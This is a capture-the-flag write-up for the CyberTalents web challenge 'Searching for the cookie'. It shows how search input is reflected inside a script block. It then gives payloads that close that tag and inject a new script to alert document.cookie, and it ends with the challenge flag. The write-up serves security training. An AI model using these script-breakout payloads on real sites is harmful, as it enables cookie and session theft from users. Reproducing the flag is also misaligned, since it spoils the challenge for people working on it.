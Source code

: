 # Challenge Name:
 [* Searching for the cookie*](https://cybertalents.com/challenges/web/searching-for-the-cookie)
 
# Challenge Description
simple search website we need to know which cookie to eat ;)

Link: [http://34.77.37.110/searching-cookie/](http://34.77.37.110/searching-cookie/)

## Answer
* Try write "<script>alert(2)</script>" in the textbox nothing will happen
* Open source code in new tab (ctrl + u)
```html
<script>var currentSearch = {'keyword':'you searched for: <script>alert(2)</script>'};</script>
```
* Now we want to close first script tag then open new one for alert, try it in the textbox
```html
</script> <script>alert(2)</script> 
```
* It works, so now try that but with cookies
```html
</script><script>alert(document.cookie)</script> 
```
* You got the Flag!!


 ## The Flag
 > coolcookie112
